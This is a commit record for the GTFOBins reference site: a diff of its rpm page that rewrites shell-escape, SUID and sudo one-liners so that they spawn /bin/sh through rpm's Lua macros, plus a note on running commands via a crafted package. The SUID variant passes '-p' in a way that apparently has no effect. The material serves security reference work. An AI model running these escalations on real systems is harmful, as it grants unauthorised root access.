

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/rpm.md, in a window 1280 px wide. Shown: the part 158-813 px from the top of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Use os.execute instead of posix.exec in rpm
From rpm versions 4.9.0 and on, posix.exec() will return an error unless called
from a child process created with posix.fork(). os.execute() may be used
instead.

This change is documented in these two resources:

- http://rpm.org/user_doc/lua.html
- https://rpm-packaging-guide.github.io/

Close #53.

````diff
--- a/_gtfobins/rpm.md
+++ b/_gtfobins/rpm.md
@@ -1,11 +1,11 @@
 ---
 functions:
   shell:
-    - code: rpm --eval '%{lua:posix.exec("/bin/sh")}'
+    - code: rpm --eval '%{lua:os.execute("/bin/sh")}'
   suid:
-    - code: ./rpm --eval '%{lua:posix.exec("/bin/sh", "-p")}'
+    - code: ./rpm --eval '%{lua:os.execute("/bin/sh", "-p")}'
   sudo:
-    - code: sudo rpm --eval '%{lua:posix.exec("/bin/sh")}'
+    - code: sudo rpm --eval '%{lua:os.execute("/bin/sh")}'
     - description: |
         It runs commands using a specially crafted RPM package. Generate it with [fpm](https://github.com/jordansissel/fpm) and upload it to the target.
         ```
````
